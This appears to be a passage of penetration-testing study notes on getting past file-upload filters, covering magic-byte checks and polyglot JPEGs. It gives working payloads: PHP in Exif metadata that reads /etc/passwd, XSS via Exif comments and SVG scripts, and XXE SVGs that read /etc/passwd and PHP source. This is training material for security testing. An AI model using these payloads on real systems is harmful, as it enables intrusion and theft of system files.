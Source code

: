 Instead of implicitly trusting the `Content-Type` HTTP header, most secure websites try to verify the contents of the file or the specific sequence of bytes in the file's header or footer.

In cases of an image upload function, some applications might try to verify certain properties of an image, such as its dimensions. So if an attacker is trying to upload a PHP script, which doesn't have dimensions, the application can recognize this and reject the upload accordingly.

In other cases, an application might try to verify a file's magic bytes - which is a sequence of bytes in a file's header of footer used as a fingerprint or signature to determine whether the file contents match the expected file type. For example, JPEG files always begin with the bytes `FF D8 FF`. An attacker can use `hexedit` to modify the file's magic bytes based on a [public list](https://en.wikipedia.org/wiki/List_of_file_signatures) of file signatures.

However, even the most robust way of validating a file isn't foolproof. Special tools such as `ExifTool`, can be used to create polyglot JPEG file containing malicious code within its metadata. For example:
```nix
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" image.jpg -o polyglot.php
```
## Chaining File Upload Vulnerabilities with XSS and XXE
The technique can also be used to introduce different vulnerabilities via file upload. These includes XSS, XXE, or DoS.
### XSS via Exif Comment
```nix
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
```
### XSS via SVG
Save the following as `HTB.svg` and upload it.
```svg
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```
### XXE
Save the following as `HTB.svg` and upload it.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
XXE can also be used to read source code in PHP web applications using the following:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```